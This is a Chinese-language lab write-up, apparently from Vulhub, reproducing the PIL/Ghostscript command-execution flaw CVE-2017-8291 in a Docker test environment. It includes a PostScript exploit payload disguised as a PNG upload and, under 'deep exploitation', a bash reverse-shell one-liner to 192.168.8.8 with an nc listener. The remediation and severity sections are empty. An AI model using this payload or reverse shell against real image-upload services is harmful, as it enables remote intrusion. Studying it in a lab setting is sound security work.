






# Python PIL 远程命令执行漏洞（GhostButt ）

# 

| 说明     | 内容                 |
| -------- | -------------------- |
| 漏洞编号 | PIL-CVE-2017-8291    |
| 漏洞名称 | PIL 远程命令执行漏洞 |
| 漏洞评级 |                      |
| 影响范围 |                      |
| 漏洞描述 |                      |
| 修复方案 |                      |

### 1.1、漏洞描述

**PIL** (Python Image Library) 应该是 Python 图片处理库中运用最广泛的，它拥有强大的功能和简洁的API。很多Python Web应用在需要实现处理图片的功能时，都会选择使用PIL

PIL在对` eps` 图片格式进行处理的时候，如果环境内装有 GhostScript，则会调用 GhostScript 在dSAFER模式下处理图片，即使是最新版本的PIL模块，也会受到 `GhostButt CVE-2017-8291` dSAFER模式Bypass漏洞的影响，产生命令执行漏洞。


[漏洞原理](http://blog.neargle.com/2017/09/28/Exploiting-Python-PIL-Module-Command-Execution-Vulnerability/?spm=a2c6h.12873639.article-detail.7.2b5166698W11xt)

### 1.2、漏洞等级

### 1.3、影响版本

### 1.4、漏洞复现

#### 1、基础环境

Path：Vulhub/python/PIL-CVE-2017-8291

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8000/`即可看到



#### 2、漏洞扫描


#### 3、漏洞验证

正常功能是上传一个PNG文件，后端调用PIL加载图片，输出长宽。攻击者可以上传EPS文件后缀修改为PNG进行文件上传，因为后端是根据文件头来判断图片类型，所以无视后缀检查

上传`poc.png`



`poc.png`代码主要部分:

在`/tmp`目录下创建`aaaaa`

```python
currentdevice null false mark /OutputFile (%pipe%touch /tmp/aaaaa)
.putdeviceparams
1 true .outputpage
.rsdparams
%{ } loop
0 0 .quit
%asdf
```




上传后返回 了图片的长度和高度






### 1.5、深度利用

#### 1、反弹Shell

修改`poc.png`内容，重新上传，反弹shell到kali机器上

```bash
bash -c "bash -i &> /dev/tcp/192.168.8.8/6868 0>&1"
```




kali监听`6868`端口

```
nc -lvp 6868
```


### 1.6、修复建议